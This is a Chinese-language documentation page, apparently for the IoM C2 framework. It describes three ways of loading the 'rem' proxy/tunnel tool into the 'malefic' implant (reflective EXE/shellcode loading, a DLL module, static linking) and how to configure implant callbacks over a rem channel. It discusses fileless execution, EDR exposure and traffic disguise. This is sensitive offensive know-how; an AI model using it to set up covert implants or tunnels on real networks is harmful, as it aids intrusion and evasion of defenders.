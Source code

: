 

在IoM中，绝大部分网络相关功能都基于rem实现。 但因为rem并非基于rust实现， 但出于多种因素考虑， rem没有成为默认开启的选项， 我们提供了多种加载rem的方式， 使得rem能在绝大多数情况下无缝集成。



## 加载rem

!!! tips "v0.1.1开始, rem的使用被大大简化，虽然不是默认模块， 但是已经简化到不带来额外的使用和理解困难的程度"


在IoM的v0.1.0中集成了一系列rem相关的功能. IoM通过三种方式打通implant与rem的交互。

### 方法1 反射加载EXE程序

rust implant的execute_exe 能完美加载rem， 就像在本地使用一样。 

```
execute_exe rem.exe -- -c [rem_link] ... 
```

或基于RDI的实现
```
execute_shellcode rem.exe -- -c [rem_link] ...
```

!!! example "优点"
	- 无文件落地
	- 支持RDI和PIC两种加载方式

!!! danger "缺点"
	- 有新进程产生，并且无法使用inline版本的加载器。对某些高强度端上对抗环境有暴露面
	- 与pipeline交互有延迟， 需要等待30-60秒才能将新的pivoting数据同步
	- 只支持windows

### 方法2 动态加载 module

将rem打包成dll, 基于Cgo与FFI实现跨语言调用

对于使用者来说， 不需要关注这些细节， 相关代码已经在[IoM的插件仓库](https://github.com/chainreactors/mal-community/blob/master/community-proxy/modules/rem.lua) 中完成了对应的封装。

上线后，在IoM命令行中执行以下代码即可安装并使用rem。

!!! tips "rem_community已在v0.1.1打包到client"

```sh
# 加载rem dll
rem_community load 

# 选择对应的rem pipeline, 搭建了反向代理隧道
rem_community socks5 rem_pipeline
```

!!! example "优点"
	- 相比`execute-exe/execute-shellcode`好的地方在于， 不会有新进程fork， 一切都在当前进程中完成。 
	- 联动IoM rem pipeline，能实时同步pivoting并进行后续管理

!!! danger "缺点"
	- 需要反射加载dll, 可能会留下EDR的部分暴露面
	- 只支持windows

### 方法3 静态链接rem

方法1和2都是解决上线后进一步搭建proxy/tunnel，本方法直接支持rem信道上线以及所有的rem提供的proxy/tunnel功能。


```yaml
implants:  
  ......
  enable_3rd: true       # enable 3rd module  
  3rd_modules:            # 3rd module when malefic compile  
    - rem
```

```sh
malefic-mutant generate beacon
```

!!! danger "windows 仅x86_64-pc-windows-gnu支持, linux 均支持 "

静态链接的beacon体积会膨胀不少， 但是可以直接使用rem

![](/blog/assets/Pasted%20image%2020250412001458.png)

例如搭建反向socks5代理只需要

```
reverse [rem_defualt]
```

手动指定rem命令
```
rem_dial [rem_default] -- -c ...
```

!!! example "优点"
	- 支持windows/linux
	- 联动IoM rem pipeline
	- 能复用rem的信道实现上线
	- 只在本进程中执行， 不会fork新进程
	
!!! danger "缺点"
	- 体积会膨胀， 大概在10M左右， upx后3-4M
	- 静态链接库不再支持ollvm, 带来一定的静态特征

## rem信道上线

基于静态链接的rem有一个独一无二的优势。 可以直接通过rem构建的内存中的虚拟信道上线。 实现**malefic over rem**

需要修改implant 的`config.yaml`

```yaml
basic:  
  name: "malefic"  
  targets:  
    - "127.0.0.1:5001"  
  protocol: "rem"  
  tls: false  
  proxy: ""  
  interval: 5  
  jitter: 0.2  
  ca:  
  encryption: aes  
  key: maliceofinternal  
  rem:  
    link: '[rem_link]'
```

运行mutant生成编译配置并编译

```bash
malefic-mutant generate beacon

cargo build --release -p malefic
```

debug 模式下的日志。 可以看到IoM的implant基于通过rem的构建的传输层进行通讯

![](/IoM/assets/76cd7db07e9cb196183a759c85ae396.png)


这样一来， rem支持的所有传输层，加密，伪装混淆都能复用到implant中， 实现流量侧的任意伪装。